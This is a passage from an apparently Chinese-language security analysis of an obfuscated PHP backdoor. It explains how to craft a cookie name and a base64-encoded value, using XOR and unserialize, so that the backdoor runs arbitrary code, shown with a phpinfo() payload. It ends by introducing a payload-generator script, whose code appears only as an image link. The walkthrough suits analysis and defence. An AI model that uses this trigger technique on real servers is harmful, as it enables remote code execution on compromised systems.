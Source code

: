 ```
e664fd(e664fd($vv, $c77700426), $kk);
```

第一次 e664fd() 执行时：

```
e664fd($vv, $c77700426) //$c77700426 = 'aec7e489-2fbc-4b15-871f-1d686eeb80dc'
```

需返回能与第二次 e664fd()  
cookie 参数名取反结果  
为 a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"  
...... 的值  
  
第二次 e664fd() 执行时：  

```
e664fd(第一次的返回值, $kk);
```

// 需返回  

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

```
所以构造思路如下：
```

> (('aec7e489-2fbc-4b15-871f-1d686eeb80dc' ^ cookie 值) ^ cookie 参数名) = a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
> 
>   

按照这个逻辑进行参数提交，方可触发后门。  

  但 COOKIE/POST 中参数名对特殊字符支持有限，所以 $kk(参数名) 的值最好在字母 / 数字范围内，好在 $vv(参数值) 的值就宽容的多，尤其是由于 $vv 传递过程需要 Base64 解码，所以，cookie 值需 base64 编码，可以取反的字符范围就比较大了。  

```
$vv = @unserialize(x184f5cc(base64\_decode($vv), $kk));
```

我们先把 $kk 也就是 cookie 参数名的字符固定一下，比如就叫'tttttttttttttttttttttttttttttttttttttt.....'  

(也可以是任意字符 cookie 参数名允许即可)

具体长度取决于我们的 payload 序列化后的字符长度 (phpinfo() 的序列化  

后长度是 101 个字符)，两者长度要一致。  

  
**四. 写个 Payload 脚本**  
**我们写个脚本：**  
大致实现通过传参生成任意执行代码的 payload，如果要更懒的话可以直接写提交过去。

  
**Payload 代码：**  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbXiaLC7ia4EreCmSa1Fl6JqEIPCk6Ly6Zvt689LchiaibGOBAv5flT1ibCaA/640?wx_fmt=png)
